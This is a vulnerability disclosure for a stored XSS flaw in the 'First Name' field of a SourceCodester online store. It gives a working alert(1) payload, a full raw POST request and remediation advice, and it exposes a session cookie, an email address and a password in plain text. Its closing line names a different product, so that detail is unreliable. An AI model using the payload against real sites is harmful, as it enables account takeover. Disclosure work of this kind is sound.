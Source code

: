 Stored Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "First Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in First Name
    Severity: High
    Affected URL: http://localhost/cbpos/classes/Master.php?f=register
    Affected Parameter: First Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "First Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "First Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/classes/Master.php?f=register

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the First name parameter as shown below and send the request to the server.

firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40


 In the browser just create an account and navigate to homepage

https://drive.google.com/file/d/1ZoSWqudhD-uPAmaU_E04IMSdm7VBI_fu/view?usp=drive_link
Payload:

firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40


Request:

POST /cbpos/classes/Master.php?f=register HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 227
Origin: http://localhost
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://localhost/cbpos/
Cookie: PHPSESSID=p74o2f7lqfitvojtejdnshjrau; __insuarance__logged=1; __insuarance__key=7273YL1ZQOZ448QSLS6V
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

firstname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&lastname=%22%3E%3Cimg+src%3Dxx+onerror%3Dalert(1)%3E&contact=6280957713&gender=Male&default_delivery_address=ssdfsfs&email=mohit.ahir7086%40gmail.com&password=Ramasra1247%40

Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/
Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the First name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.